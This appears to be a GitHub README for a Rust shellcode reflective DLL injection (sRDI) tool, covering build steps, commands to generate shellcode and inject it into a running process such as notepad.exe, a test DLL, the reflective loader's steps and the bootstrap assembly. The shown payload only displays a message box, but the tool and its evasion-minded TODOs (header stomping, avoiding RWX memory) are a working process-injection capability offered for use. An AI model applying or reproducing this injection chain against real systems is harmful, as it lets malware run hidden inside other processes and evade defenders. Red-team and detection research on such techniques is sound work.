

# Shellcode Reflective DLL Injection (sRDI)

## Description

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent shellcode which can then be injected using our favorite shellcode injection and execution technique.

## Install Rust

https://www.rust-lang.org/tools/install


## Install cargo-make

```
cargo install --force cargo-make
```

## Usage

1). Build all of the projects using `cargo-make`.

```
cargo make --profile production
```

2). Generate the shellcode.
```
generate_shellcode.exe <reflective loader dll path> <user dll path> <user function> <user data> <shellcode outfile path>
```

3). Use `inject` or bring your own injector (BYOI) and inject the position-independent shellcode with your favorite injection and execution technique.

```
inject.exe <process> <shellcode.bin>
```

## Example

```
cargo make --profile production
generate_shellcode.exe reflective_loader.dll testdll.dll SayHello memN0ps shellcode.bin
inject.exe notepad.exe shellcode.bin
```


# Details

## Test DLL

This is the payload that will be executed by the reflective loader. Both the `DllMain` and `SayHello` functions will be called.

[Why?](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

*"The assumption of reflective DLL injection is that calling the entry point of the DLL is sufficient to execute the full functionality of the DLL. However, this is often not the case. In fact, [Microsoft advises](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices) developers to minimize the amount of work done in `DllMain`, and to do “lazy initialization”, avoiding loading additional libraries or creating new threads. The main entry point then, would be in another function that would be called separately after the DLL was loaded."* - Dan Staples

```rust
#[no_mangle]
#[allow(non_snake_case)]
pub unsafe extern "system" fn DllMain(
    _module: HINSTANCE,
    call_reason: u32,
    _reserved: *mut c_void,
) -> BOOL {
    if call_reason == DLL_PROCESS_ATTACH {
        MessageBoxA(
            0 as _,
            "Rust DLL injected!\0".as_ptr() as _,
            "Rust DLL\0".as_ptr() as _,
            0x0,
        );

        1
    } else {
        1
    }
}

#[no_mangle]
#[allow(non_snake_case)]
fn SayHello(user_data: *mut c_void, user_data_len: u32) {
    let user_data_slice =
        unsafe { core::slice::from_raw_parts(user_data as *const u8, user_data_len as _) };
    let user_data = std::str::from_utf8(user_data_slice).unwrap();
    let message = format!("Hello from {}", user_data);

    unsafe {
        MessageBoxA(
            0 as _,
            message.as_ptr() as _,
            "SayHello!\0".as_ptr() as _,
            0x0,
        );
    }
}
```

## Reflective Loader

The reflective loader emulates `LoadLibraryA`:

Step 1) Load required modules and exports by hash

Step 2) Allocate memory and copy sections and headers into the newly allocated memory (`VirtualAlloc` uses `RW` not `RWX`)

Step 3) Process image relocations (rebase image)

Step 4) Process image import table (resolve imports)

Step 5) Set protection for each section (`VirtualProtect` changes memory protection for each section)

Step 6) Execute DllMain

Step 7) Execute USER_FUNCTION

Step 8) Free memory (new module base memory from `VirtualAlloc` is freed using `VirtualFree`) and exit thread (TODO)


## Generate Position Independent Shellcode

The `generate_shellcode` project will generate shellcode and output a file that looks like this in memory:

[](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

This is the bootstrap shellcode that does the magic by passing the parameters and calling the reflective loader:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5

mov dword ptr [rsp + 0x28], <flags>

mov r9, <length of user data>
add r8, <user function offset> + <length of DLL>
mov edx, <hash of function>
add rcx, <offset of dll>

call <reflective loader address>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

[Why?](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

*"The reason we need the bootstrap shellcode is due to the limited amount of data we’re able to pass to the reflective loader with Stephen Fewer’s original reflective DLL injection technique."* - Dan Staples

*"Since Fewer’s reflective DLL injection technique passes the address of the reflective loader to `CreateRemoteThread` as the `lpStartAddress` parameter, it’s only able to pass a single void pointer."* - Dan Staples

*"But if we want our reflective loader to call an additional export after loading the DLL, we’ll need to give it more information! We’ll do this by passing additional parameters to the reflective loader function using some bootstrap shellcode."* - Dan Staples


The new declaration of our reflective loader function will be:

```rust
#[no_mangle]
pub extern "system" fn reflective_loader(
    image_bytes: *mut c_void,    // testdll base address
    user_function_hash: u32,     // SayHello hash 
    user_data: *mut c_void,      // memN0ps
    user_data_length: u32,       // 7
    _shellcode_base: *mut c_void,// bootstrap shellcode base address
    flags: u32,                  // 0x2
)
```

## TODO

* Stomp / erase DOS and NT headers
* Free `bootstrap shellcode / RDI / testdll / user data` memory and exit thread. Note that newly allocated memory (`VirtualAlloc` using `RW`) is already being freed at the end of RDI using `VirtualFree`. (The rest can be done by the user, if needed).
* x86 support (mostly already done)

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/